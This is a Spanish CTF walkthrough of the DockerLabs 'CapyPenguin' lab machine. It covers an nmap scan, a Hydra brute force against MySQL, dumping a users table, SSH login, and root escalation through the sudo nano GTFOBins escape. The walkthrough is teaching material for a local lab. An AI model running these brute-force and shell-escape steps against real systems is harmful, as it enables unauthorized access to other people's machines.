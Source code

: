 # [CapyPenguin](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh capypenguin.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22** y **3306**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/b544b52d-5645-4629-9f81-7ab3264f304d)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP podemos ver una página como está:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/06bf7933-f450-4c49-91ef-bb7e26261fed)
<br>

Y nos está dando alguna pista respecto al rockyou cuando vayamos a aplicar fuerza bruta, además nos indica un posible usuario que sería **capybarauser**

<br>
<br>

## Hydra / Medusa

Pero antes de empezar a hacer fuerza bruta, debemos seguir la pista que nos dejó en la web, para llevar a cabo eso nos copiamos el rockyou a nuestro directorio de trabajo con `cp /usr/share/wordlists/rockyou.txt .`, una vez copiado le damos la vuelva al rockyou con el siguiente comando `tac rockyou.txt > mirockyou.txt`. Por lo que ahora estaremos preparados para aplicar fuerza bruta. En primer lugar la aplicaremos al servicio ssh pero sin éxito. Por lo que después probamos a hacer fuerza bruta al servicio mysql `hydra -l capybarauser -P /home/kali/dockerlabs/CapyPenguin/mirockyou.txt mysql://172.17.0.2 -t 4 -I`. <br>
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br>
`-t` ⮞ número de interacciones para evitar el error de abajo <br> 
`-I` ⮞ para que sobrescriba el archivo hydra.restore en el caso de que hayamos cancelado un proceso de fuerza bruta antes <br> 
<br>

> Si te da un error como el de abajo, entra **aquí** para solucionarlo__:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/02361559-3503-4606-8d04-602919c4aac0)

<br>

Una vez hecha la fuerza bruta al mysql, nos encontrará las siguientes credenciales para el usuario **capypenguin**:
<br>

(imagen)

<br>
<br>

## Mysql (Puerto 3306)

Accedemos al servidor de mysql con la siguiente instrucción: `mysql -u capypenguin -p` ponemos la contraseña, comprobamos que podemos acceder:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/26e8ba24-b93b-43b7-869e-8e05c4743cf0)

<br>

Listamos las bases de datos con `show databases;`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/0b8fb185-9777-492f-9972-686b7a51ae8c)

<br>

Vemos varias bases de datos pero todas menos la de `pinguinasio_db` son las de por defecto, por lo que entramos a la base de datos `pinguinasio_db` con `use pinguinasio_db`. Una vez seleccionada, listamos las tablas de dicha base de datos con `show tables`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/f1914b34-7341-4678-8adc-06a22f0f58d1)

<br>

Observamos que hay una tabla llamada `users` por lo que haremos `select * from users` lo cual nos permitirá listar todo el contenido de dicha tabla. Nos mostraría el siguiente contenido:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3b4295b2-c894-4e9a-9fda-70255541ad87)

<br>
<br>


## SSH(Puerto 22)

Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina CapyPenguin a través del ssh de la siguiente forma `ssh mario@172.17.0.2`, y a continuación nos pedirá la contraseña. Podemos ver que estamos dentro de la máquina con `hostname -I ; whoami`.<br>
 > El (;) concatena dos comandos.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/d3b4b36d-e2d7-42c9-9b43-50c884503335)

<br>
<br>

## Escala de Privilegios

Una vez dentro de la máquina ejecutamos `sudo -l` observamos que podemos correr `/usr/bin/nano` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/0725a4ed-2bc2-48bd-b4c7-baa1d5d2ca64)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de `sudo` en `/usr/bin/nano`, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/5be62386-af3e-4702-8363-a275e63c6d0d)

<br>

Por lo cual para elevar privilegios lo que debemos hacer es seguir dichos pasos ejecutando los sigueintes comando en este orden: 
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. `sudo -u root /usr/bin/nano`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. `CTRL + R`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. `CTRL + X`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 4-. `reset; bash 1>&0 2>&0` <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 5-. `CTRL + L`
<br>

Y listo ya somos root!
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/7200c882-a04a-42c9-92bd-2bb0e3c2b61e)
